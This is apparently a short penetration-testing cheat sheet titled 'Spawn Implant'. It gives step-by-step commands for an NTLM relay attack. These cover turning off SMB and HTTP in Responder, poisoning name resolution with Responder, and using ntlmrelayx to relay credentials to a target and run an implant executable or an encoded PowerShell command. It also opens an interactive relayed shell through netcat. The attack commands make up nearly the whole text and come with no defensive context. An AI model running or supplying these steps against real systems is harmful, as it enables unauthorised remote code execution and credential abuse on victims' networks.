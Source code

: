 # Spawn Implant

Modify in the Responder configuration file

```
$ sudo nano /etc/responder/Responder.conf
..[truncated]..
SMB=OFF
HTTP=OFF
```

Start the `responder`.

```
$ sudo responder -I <interface> -rdw
```

Spawn callback shell.

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e implant.exe

$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"
```

Interactive shell with netcat

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -i

$ nc 127.0.0.1 <PORT>
```
